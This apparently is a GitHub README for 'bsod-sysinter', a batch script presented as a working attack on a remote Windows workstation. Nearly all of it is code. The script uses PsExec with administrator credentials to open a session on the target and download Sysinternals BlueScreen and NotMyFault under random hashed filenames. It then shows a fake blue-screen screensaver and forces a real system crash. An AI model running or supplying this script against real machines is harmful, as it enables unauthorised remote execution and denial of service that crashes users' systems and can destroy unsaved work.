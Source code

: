 # bsod-sysinter

The following script leverages the PSExec, SysInternalsBluescreen.scr, and notmyfaultc64.exe components of Sysinternals Suite to flash a blue screen screensaver and force a BSOD against a remote Windows 10 workstation. It assumes knowledge of administrative credentials and was tested against Windows Server 2019 v1909 with the Windows Firewall in its default configuration state.

```bat
FOR /F "tokens=*" %%g IN ('powershell.exe -NoProfile -command "& {$stringAsStream = [System.IO.MemoryStream]::new(); $writer = [System.IO.StreamWriter]::new($stringAsStream); $out = (Get-Random) -join \"`n\"; $writer.write($out); $writer.Flush(); $stringAsStream.Position = 0; Get-FileHash -InputStream $stringAsStream -Algorithm SHA256 | Select-Object Hash}"') do (SET VAR=%%g)
echo %VAR%

FOR /F "tokens=*" %%g IN ('powershell.exe -NoProfile -command "& {$stringAsStream = [System.IO.MemoryStream]::new(); $writer = [System.IO.StreamWriter]::new($stringAsStream); $out = (Get-Random) -join \"`n\"; $writer.write($out); $writer.Flush(); $stringAsStream.Position = 0; Get-FileHash -InputStream $stringAsStream -Algorithm SHA256 | Select-Object Hash}"') do (SET VAR2=%%g)
echo %VAR2%

psexec.exe \\192.168.0.12 -u Administrator cmd
curl https://download.sysinternals.com/files/BlueScreen.zip --output %USERPROFILE%\%VAR%.zip
curl https://download.sysinternals.com/files/NotMyFault.zip --output %USERPROFILE%\%VAR2%.zip
tar -xf %USERPROFILE%\%VAR%.zip
tar -xf %USERPROFILE%\%VAR2%.zip
exit
psexec.exe -i \\192.168.0.12 -u Administrator "%USERPROFILE%\SysInternalsBluescreen.scr" /s Rem Previous interactive Psexec session exited so that another can be spawned in the active user session
psexec.exe \\192.168.0.12 -u Administrator "%USERPROFILE%\notmyfaultc64.exe" crash 0x01
```

Reference: https://docs.microsoft.com/en-us/troubleshoot/windows/win32/screen-saver-command-line
